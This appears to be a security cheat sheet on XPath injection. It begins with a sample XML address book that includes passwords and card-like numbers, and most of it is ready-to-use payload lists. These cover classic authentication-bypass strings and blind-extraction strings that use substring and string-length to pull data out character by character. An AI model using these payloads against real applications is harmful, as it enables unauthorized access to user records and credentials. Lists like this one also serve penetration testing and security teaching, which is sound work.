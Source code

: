 # XPATH


## Injecting into XPath


XML exemple:

```xml
<addressBook>
	<address>
		<firstName>William</firstName>
		<surname>Gates</surname>
		<password>MSRocks!</password>
		<email>billyg@microsoft.com</email>
		<ccard>5130 8190 3282 3515</ccard>
	</address>
	<address>
		<firstName>Chris</firstName>
		<surname>Dawes</surname>
		<password>secret</password>
		<email>cdawes@craftnet.de</email>
		<ccard>3981 2491 3242 3121</ccard>
	</address>
	<address>
		<firstName>James</firstName>
		<surname>Hunter</surname>
		<password>letmein</password>
		<email>james.hunter@pookmail.com</email>
		<ccard>8113 5320 8014 3313</ccard>
	</address>
```

## XPATH injection

### Classic Exploitation

```txt
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
```

### Blind Exploitation

1. Size of a string

and string-length(account)=SIZE_INT

2. Extract a character

```txt
substring(//user[userid=5]/username,2,1)=CHAR_HERE
substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
```


An XPath query to retrieve all e-mail addresses would look like this: `//address/email/text()`

A query to return all the details of the user Dawes would look like this: `//address[surname/text()='Dawes']`


## Blind XPATH Injection:

```txt
' or substring(name(parent::*[position()=1]),1,1)='a
' or substring(name(parent::*[position()=1]),2,1)='a
' or substring(name(parent::*[position()=1]),2,1)='b
' or substring(name(parent::*[position()=1]),2,1)='c
' or substring(name(parent::*[position()=1]),2,1)='d
//address[position()=3]/child::node()[position()=4]/text()
//address[position()=3]/child::node()[position()=6]/text()
```

